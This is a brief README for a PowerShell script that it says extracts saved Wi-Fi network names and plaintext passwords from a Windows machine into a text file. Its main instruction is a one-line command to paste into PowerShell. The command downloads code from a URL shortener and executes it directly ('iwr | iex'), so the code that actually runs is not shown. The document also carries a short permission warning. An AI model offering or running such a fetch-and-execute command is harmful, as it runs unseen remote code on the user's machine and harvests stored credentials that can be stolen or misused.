 # README — Run `sqd5.ps1` via `iwr | iex`

## Purpose
`sqd5.ps1` extracts saved Wi-Fi SSIDs and passwords from a Windows machine.  
- Only profiles with stored passwords are listed.  
- Open networks are skipped.  
- Output goes to `%USERPROFILE%\Downloads\wlan_passwords.txt`.  

## Security Warning
- The output contains plaintext Wi-Fi passwords.  
- Run only on machines you own or have permission to access.  
- Treat the output as sensitive and delete/encrypt after use.  

## Quick Run (Direct `iwr | iex`)
1. Open **Windows PowerShell** (normal or elevated).  
2. Paste the following command:

```powershell
iwr 'https://is.gd/T2aQPt' -UseBasicParsing | iex
